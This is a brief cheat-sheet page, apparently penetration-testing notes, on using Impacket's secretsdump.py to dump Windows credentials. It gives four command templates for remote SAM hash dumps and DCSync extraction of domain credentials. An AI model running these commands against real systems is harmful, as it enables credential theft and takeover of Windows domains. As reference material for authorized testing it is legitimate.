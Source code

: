 # Windows Secrets

Secretsdump is a script used to extract credentials and secrets from a system. The main use-cases for it are the following:

* Dump NTLM hash of local users (remote SAM dump)
* Extract domain credentials via DCSync

```bash
secretsdump.py -just-dc $username:$password@$domain/$hostname/$IP
```

```bash
secretsdump.py -dc-ip $ip $username:$password@$domain/$hostname/$IP
```

```bash
secretsdump.py -k -no-pass $domain/$hostname/$IP
```

```bash
secretsdump.py $domain/$username@$hostname/$IP 
```
